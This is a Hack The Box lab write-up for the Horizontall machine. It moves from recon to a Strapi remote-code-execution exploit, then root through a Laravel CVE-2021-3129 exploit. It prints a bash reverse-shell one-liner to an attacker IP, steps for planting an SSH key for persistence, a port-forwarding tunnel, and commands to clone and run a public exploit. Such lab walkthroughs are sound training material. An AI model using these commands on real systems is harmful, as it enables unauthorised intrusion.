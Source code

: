 ```yaml
---
title: HTB-Horizontall
tags: [laravel, RCE, CVE]
published: true
categories: [HTB]
image: /assets/images/htb/Horizontal/htb.png
---
```


# Horizontall machine on [hackthebox](https://app.hackthebox.com)


## Recon

Starting with an nmap scan we can see that there are only 2 ports open.

![](/assets/images/htb/Horizontal/Pasted image 20240430175510.png)

Lets add horizontall.htb to our hosts file and explore the web page. 

![](/assets/images/htb/Horizontal/Pasted image 20240430175755.png)

### Web (html) 

Clicking through the web application trying to understand its functionality doesn't provide us with any useful information as the webpage appears to be static without any functionality implemented. 

![](/assets/images/htb/Horizontal/Pasted image 20240430180349.png)

Looking at the wappalyzer doesn't really get us much more information. 

![](/assets/images/htb/Horizontal/Pasted image 20240430180527.png)

So at this point we could try to brute force directories or potential vhosts.  
Lets try dir busting first! Unfortunately we haven't found anything of interest again...

![](/assets/images/htb/Horizontal/Pasted image 20240430181051.png)

We can try vhosts scan or look at the source of the web app, specifically into .js files and see if there are some clues left there. 
Inspecting the `app.c68eb462.js` file we search for `horizontall.htb` string hoping for some possible endpoints we can examine and we finally get a hit!! It appears that there is a subdomain `api-prod.horizontall.htb/`

![](/assets/images/htb/Horizontal/Pasted image 20240430181728.png)

Lets add it to our hosts file and explore some more. 

![](/assets/images/htb/Horizontal/Pasted image 20240430181919.png)

### API 

Going to the 'http://api-prod.horizontall.htb/' we are greeted with a simple "Welcome" message. 


![](/assets/images/htb/Horizontal/Pasted image 20240430182048.png)

Once again lets try directories brute forcing with ffuf and see if we get any luck 🤞 

![](/assets/images/htb/Horizontal/Pasted image 20240430182429.png)

As you can see we found admin endpoint among others like users and reviews. 
Investigating the `/admin` endpoint lands us on strapi login page. 

![](/assets/images/htb/Horizontal/Pasted image 20240430182610.png)

From here we have couple of options. We could try guessing usernames and passwords like `admin:admin` etc or go to google and see if there are any default credentials for strapi. We could also try sql injection in the login form or play around with password reset functionality. 

What we are going to do first though is look up if there are any known vulnerabilities in the strapi. 
After quick google search we can see that there is an exploit for `Strapi CMS 3.0.0-beta.17.4` in exploit db.

![](/assets/images/htb/Horizontal/Pasted image 20240430183345.png)

However at this point in time we aren't really sure what is the version of our strapi. 
Scrolling through the exploit code we can see that there is a version check before an exploitation attempt is made. We can see that in here. 

![](/assets/images/htb/Horizontal/Pasted image 20240430183633.png)

Lets see if we can manually check the version ourselves going to `/admin/init` endpoint. 

![](/assets/images/htb/Horizontal/Pasted image 20240430183801.png)

Perfect! Seems like we have a version match. Now lets get down to business. 

## Foothold

Time to copy the exploit code to our machine and try getting reverse shell one the box. 

![](/assets/images/htb/Horizontal/Pasted image 20240430184521.png)

Exploit seems to be working. We can start an ncat listener on our machine and try curling ourselves to make sure we do have code execution. 

![](/assets/images/htb/Horizontal/Pasted image 20240430184832.png)

![](/assets/images/htb/Horizontal/Pasted image 20240430184858.png)

Awesome!! Everything seems to be working so far. This time lets send the bash reverse shell. 

```bash
$> bash -c 'bash -i >& /dev/tcp/10.10.14.113/9001 0>&1'
```

And we got in!! 

![](/assets/images/htb/Horizontal/Pasted image 20240430185239.png)

## Privesc 

We are gonna drop ssh key on the box for a better and more stable shell. We can do that by running: 

```bash
ssh-keygen 
```

Next on our victim machine we should make a directory `.ssh` in our home folder and paste the public key we just generated inside authorized_keys file and then adjust permissions. Like this: 

```bash
cd ~
mkdir .ssh
echo " <your public key here> " > authorized_keys
chmod 600 authorized_keys
```

Then we simply ssh in with our private key as follows.

```bash
┌──(sinin㉿legion)-[~/.ssh]
└─$ ssh strapi@10.129.2.203 -i id_ed25519
```

Once we are logged back in lets see if we can find some more information about the users on this box. Simple cat on `/etc/passwd` should let us know what are the usernames. 

![](/assets/images/htb/Horizontal/Pasted image 20240430205231.png)

We can see that besides the us there is also a developer and root user. Next lets see what ports are listening on our box. 

![](/assets/images/htb/Horizontal/Pasted image 20240430205111.png)

We have couple of ports listening. Port `22` and `80` we can exclude since we already know what those are. Same goes for port `3306` as its `MySQL` database for strapi web app. We could try extracting database username and password from the source code which we may eventually. However at this point i wanna see what's up with ports `1337` and `8000`. So what we are going to do first is simply curl those addresses and see we we get any http response from them. 

![](/assets/images/htb/Horizontal/Pasted image 20240430205834.png)

On port `1337` we have the welcome msg we already seen. Which means that's strapi application that we already exploited. What about port `8000`?

![](/assets/images/htb/Horizontal/Pasted image 20240430205948.png)

That's something new! Looks like yet another web app. It would be nice if we could access it from our browser. In order to achieve that we are going to have to set up ssh tunnel. 

```bash
~C
ssh> -L 9002:127.0.0.1:8000
```

Now we are forwading port 8000 on the box to the port `9002` on our machine through ssh tunnel and we can simply go to 'http://localhost:9002' in our browser and check out the page. 

![](/assets/images/htb/Horizontal/Pasted image 20240430213117.png)

This time we have a laravel default welcome page. A quick google search for laravel on [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/laravel) and there is couple of interesting things for us to try. Going to `/profiles` shows us an error page indicating that laravel is running in debug mode. Exploring context tab on the error page tells us that the `laravel` version is `8.43.0` which seems to be vulnerable to RCE that we found on hacktricks. 

![](/assets/images/htb/Horizontal/Pasted image 20240430213855.png)

The only thing left now is to find working exploit. I found one on this github [repo](https://github.com/nth347/CVE-2021-3129_exploit) We can clone the repo and follow instructions.

```bash
$ git clone https://github.com/nth347/CVE-2021-3129_exploit.git
$ cd CVE-2021-3129_exploit
$ ./exploit.py http://localhost:8000 Monolog/RCE1 id
```

Victory!! Finally got root privileges on the box. 

![](/assets/images/htb/Horizontal/Pasted image 20240430215619.png)

So that would be it when it comes to Horizontall. At this point we can simply cat the root flag or drop reverse shell to gain root shell on the machine. 